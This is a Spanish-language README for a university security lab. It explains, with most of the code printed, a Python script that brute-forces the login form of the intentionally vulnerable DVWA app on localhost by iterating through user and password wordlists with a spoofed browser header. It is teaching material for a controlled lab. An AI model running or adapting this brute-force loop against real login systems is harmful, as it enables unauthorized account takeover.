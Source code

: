 
# Laboratorio de Criptografía y Seguridad en Redes - Fuerza Bruta con Python

## Introducción

Este repositorio contiene el desarrollo del **Laboratorio 2** de **Criptografía y Seguridad en Redes**, el cual está enfocado en realizar un ataque de **fuerza bruta** sobre el sistema de autenticación de la aplicación web **DVWA** (Damn Vulnerable Web Application). A través de este laboratorio, se exploran diversas herramientas y métodos para automatizar el proceso de fuerza bruta, con el objetivo de obtener combinaciones de usuario y contraseña válidas.

El script de Python desarrollado para este laboratorio utiliza la librería **`requests`** para interactuar con el formulario de inicio de sesión de DVWA. El script prueba todas las combinaciones posibles de usuarios y contraseñas, detectando automáticamente las credenciales correctas.

## Archivos Principales

- **`script.py`**: El archivo principal del laboratorio. Contiene el script en Python que realiza el ataque de fuerza bruta sobre el formulario de inicio de sesión de DVWA.
- **`users.txt`**: Un archivo de texto que contiene una lista de usuarios a probar.
- **`pass.txt`**: Un archivo de texto que contiene una lista de contraseñas a probar.

## Requisitos

- Python 3.x
- La librería `requests` de Python

## Cómo Ejecutar el Script

1. Asegúrate de tener **DVWA** corriendo en tu máquina local, y que esté accesible en `http://localhost:4280`.
2. Coloca los archivos **`users.txt`** y **`pass.txt`** con las listas de combinaciones de usuario y contraseña en el mismo directorio que el script `script.py`.
3. Ejecuta el siguiente comando para ejecutar el ataque de fuerza bruta:
   ```bash
   python3 script.py
   ```

El script hará intentos de inicio de sesión utilizando las combinaciones de **`users.txt`** y **`pass.txt`**, verificando si la autenticación es exitosa o no. Si las credenciales son correctas, el script las mostrará en consola.

## Explicación del Código

### 1. **Configuración**

El script comienza configurando la URL de DVWA y los archivos de diccionarios de usuarios y contraseñas:

```python
URL = "http://localhost:4280/vulnerabilities/brute/"
USERS_FILE = "users.txt"
PASS_FILE  = "pass.txt"
```

### 2. **Cabeceras HTTP**

Se configuran las cabeceras HTTP necesarias para emular una solicitud legítima de un navegador:

```python
HEADERS = {
    "User-Agent": "Mozilla/5.0 ..."
                  "Chrome/135...",
    "Cookie": "security=low; PHPSESSID=TUCOOKIEAKI"
}
```

### 3. **Lectura de los Diccionarios de Usuarios y Contraseñas**

Se leen los diccionarios `users.txt` y `pass.txt` que contienen las combinaciones de usuario y contraseña:

```python
def load_list(path):
    with open(path, "r") as f:
        return [l.strip() for l in f if l.strip()]

users     = load_list(USERS_FILE)
passwords = load_list(PASS_FILE)
```

### 4. **Ataque de Fuerza Bruta**

El script realiza un **ataque de fuerza bruta** mediante solicitudes GET a la URL de DVWA, probando cada combinación de usuario y contraseña:

```python
session = requests.Session()
session.headers.update(HEADERS)

found = []
start = time.time()

for user in users:
    for pwd in passwords:
        resp = session.get(URL, params={
            "username": user,
            "password": pwd,
            "Login": "Login"
        })
        if "Username and/or password incorrect" not in resp.text:
            found.append((user, pwd))
            print(f"[+] Credenciales válidas: {user} / {pwd}")

end = time.time()
```

### 5. **Resultados**

Al finalizar el ataque, el script muestra las credenciales válidas y el tiempo total del ataque:

```python
print("
=== RESULTADOS ===")
for u,p in found:
    print(f" • {u}:{p}")
print(f"
Tiempo total de ataque: {end - start:.2f} segundos")
```

---

